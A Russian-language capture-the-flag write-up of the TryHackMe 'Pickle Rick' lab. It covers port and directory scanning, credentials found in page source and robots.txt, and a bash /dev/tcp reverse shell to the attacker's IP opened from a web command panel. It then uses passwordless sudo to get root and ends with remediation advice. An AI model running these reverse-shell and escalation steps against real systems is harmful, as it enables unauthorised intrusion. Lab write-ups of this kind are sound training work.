







# TryHackMe: Pickle Rick


*Дата: 21.10.2026*


### Сложность: Easy

**Мой IP: 192.168.166.222**

**IP Цели: 10.114.151.146**

**Инструменты: nmap, gobuster, netcat, bash, sudo**

---

**Краткий пересказ: Возможно подняться до root. Машинка имеет критические уязвимости из-за неправильного хранения конфиденциальных данных, отсутствия фильтрования команд в веб-интерфейсе и прав sudo у www-data**

---

Начинаю с этапа сканирования:

```bash
nmap -sV -T4 10.114.151.146 -p-
```



Сканирование выдало два порта. `SSH` на 22-ом и сайт `http Apache` на 80-ом.

В исходном коде страницы был обнаружен комментарий `Username: R1ckRul3s`. Предположительно, это `username`

Сканирую сайт на поиск скрытых директорий и файлов:

```bash
gobuster dir -u http://10.114.151.146 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```



В файле `robots.txt` был обнаружен комментарий `Wubbalubbadubdub`.

Зайдя в `http://10.114.151.146` я ввёл *username:* `R1ckRul3s`, *пароль:* Wubbalubbadubdub и смог войти. 



У меня появился доступ к командной панели. Получаю `reverse-shell`:

На kali:

```bash
nc -lvp 4444
```

В командной панели:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.166.222/4444 0>&1'
```



Получаю `TTY`:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Делаю разведку

```bash
whoami
pwd
sudo -l
```

Я - `www-data` В `/var/www/html`. 



У меня есть права `sudo` без ввода пароля ((ALL) NOPASSWD: ALL) . Получаю `root`:

```bash
sudo su
```

Ищу первый флаг

```bash
ls -la /var/www/html
```



Вижу файл `Sup3rS3cretPickl3Ingred.txt`, читаю его:

```bash
cat /var/www/html/Sup3rS3cretPickl3Ingred.txt
```

Нахожу первый флаг. Ищу второй флаг:

```bash
find / -name "*flag*" 2>/dev/null
```

Меняю синтаксис, ищу второй флаг по другому:

```bash
find / -name "*ingredient*" 2>/dev/null
```

Нахожу файл `/home/rick/second ingredients`, читаю его

```bash
cat "/home/rick/second ingredients"
```

Ищу третий флаг в `/root`:

```bash
ls -la /root
```



Нахожу файл `3rd.txt`. Читаю его:

```bash
cat /root/3rd.txt
```

Прохожу машинку. 

### Рекомендации по устранению уязвимостей:
1. **Убрать комментарий в коде основной страницы с username**
2. **Поменять пароль и убрать его из robots.txt**
3. **Использовать правило минимальных привилегий для www-data**
4.  **Запретить использование системных команд из веб-интерфейса**
